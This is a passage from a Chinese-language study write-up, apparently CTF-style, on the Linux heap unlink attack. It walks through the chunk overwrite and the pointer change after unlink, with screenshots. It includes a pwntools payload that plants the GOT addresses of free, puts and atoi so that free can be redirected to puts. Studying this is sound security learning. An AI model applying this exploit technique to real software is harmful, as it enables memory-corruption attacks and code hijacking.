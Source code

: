 我们unlink之前globals指针数组中的情况

![image-20220922142102103](LinuxUnlink%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0.assets/image-20220922142102103.png)

再看看chunk2的位置，成功覆盖调了chunk3的**prev_size**和**size**里的**prev_inuse**标志位

![image-20220922142416774](LinuxUnlink%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0.assets/image-20220922142416774.png)

触发unlink之后，chunk3被free掉并置NULL，而chunk2的指针变成了head-0x8

![image-20220922142612983](LinuxUnlink%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0.assets/image-20220922142612983.png)

现在我们利用类似的方法free_got替换成puts_plt，首先需要把free_got和puts_got的地址放进去

```python
payload = p64(0)
payload += p64(elf.got['free'])
payload += p64(elf.got['puts'])
payload += p64(elf.got['atoi'])
fill(2,payload)
#gdb.attach(shell)
```

![image-20220922144712621](LinuxUnlink%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0.assets/image-20220922144712621.png)
